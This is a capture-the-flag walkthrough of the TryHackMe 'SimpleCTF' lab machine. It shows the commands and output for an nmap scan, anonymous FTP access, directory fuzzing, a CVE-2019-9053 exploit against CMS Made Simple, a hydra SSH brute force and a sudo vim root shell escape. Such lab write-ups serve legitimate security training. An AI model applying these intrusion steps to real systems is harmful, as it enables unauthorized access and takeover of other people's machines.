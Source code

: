 ```yaml
---
title: TryHackMe | SimpleCTF
author: Zeropio
date: 2022-09-28
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/simplectf
---
```


# Foothold

The nmap show:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.2.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

We try logging to the ftp as **anonymous**:

```console
zero@pio$ ftp anonymous@10.10.69.153                                                                                    
	Connected to 10.10.69.153.
	220 (vsFTPd 3.0.3)
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
ftp> ls
	229 Entering Extended Passive Mode (|||41322|)
```

It seems we can access but no execute commands, so we download the whole ftp:

```console
zero@pio$ wget -m --no-passive ftp://anonymous@10.10.69.153
```

There we can find a file: `ForMitch.txt`{: .filepath}:

```console
zero@pio$ cat ForMitch.txt 
	Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

The webserver show a default Apache page, so we can try fuzzing:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.69.153/FUZZ'

	simple                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 159ms]
	server-status           [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 105ms]
	                        [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 107ms]
```

Under `/simple/`{: .filepath} we can see they are using CMS Made Simple version 2.2.8. This version is vulnerable to **CVE-2019-9053**. 

---

# Fingerprint

With this [exploit](https://www.exploit-db.com/exploits/46635) we can get an valid user:

```console
zero@pio$ python2 46635.py -u 'http://10.10.69.153/simple/' --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

Now we can use hydra to get a password:

```console
zero@pio$ hydra -l mitch -P /usr/share/seclists/Passwords/Common-Credentials/best110.txt ssh://10.10.69.153 -s 2222

	[2222][ssh] host: 10.10.69.153   login: mitch   password: secret
```

Now we can login in the system.

---

# Privilege Escalation

We can see in the server that we have sudo permission over `vim`. With [GTFObins](https://gtfobins.github.io/gtfobins/vim/#sudo) we can quickly escalate:

```console
$ sudo -l
	User mitch may run the following commands on Machine:
	    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/sh'

# whoami
	root
```